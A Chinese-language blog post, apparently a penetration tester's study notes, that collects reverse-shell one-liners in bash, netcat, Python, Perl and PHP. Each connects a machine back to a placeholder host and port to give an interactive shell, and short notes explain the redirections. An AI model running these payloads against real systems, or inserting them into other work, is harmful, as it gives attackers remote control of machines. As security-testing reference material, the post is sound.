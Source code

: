 ```yaml
---
title: 关于反弹shell的姿势
date: 2020-03-05 15:26:53
tags:
 - shell
 - 渗透测试
categories:
 - 日常积累
---
```


## linux下的反弹

本机使用nc

```
nc -lvp port
```

<!--more-->

### bash

```
bash -i >& /dev/tcp/host/port 0>&1
```

> - linux shell下常用的文件描述符是：
>
>   > 1. 标准输入  (stdin) ：代码为 0 ，使用 < 或 << ； 
>   >
>   > 2. 标准输出  (stdout)：代码为 1 ，使用 > 或 >> ； 
>   >
>   > 3. 标准错误输出(stderr)：代码为 2 ，使用 2> 或 2>>。
>
> - bash -i 新开一个交互bash
>
> - \>&或者 &\>  将标准错误输出定向到标准输出中
>
> - 0>&1或者0<&1将标准输入重定向到标准输出中
>
> - /dev/tcp/host/port  使用tcp通道与host:post建立一个连接
>
> - 如果还是不清楚 参考手册https://www.gnu.org/software/bash/manual/bash.pdf 3.6 章redirections



### nc

```
nc -e /bin/bash host port
```

>nc -e   inbound program to exec [dangerous!!]



有些版本的NC没有-e选项，在本机开两个端口

```
nc -lvp port1
nc -lvp port2
```



受控机

```
nc host port1 | /bin/bash | nc host port2
```

>- 管道命令，从host:pot1输入数据交给 /bin/bash处理，再交给host：port2输出
>
>- 将nc 改成telnet 也是可以的





### python

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("host",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



### perl

```
perl -e 'use Socket;$i="host";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```



### php

```
php -r '$sock=fsockopen("host",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

> php反弹shell的这些方法都需要php关闭safe_mode这个选项，才可以使用exec函数





参考连接

https://www.freebuf.com/news/142195.html

https://www.freebuf.com/articles/system/147768.html

https://www.freebuf.com/articles/system/178150.html

https://www.freebuf.com/articles/system/153986.html

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet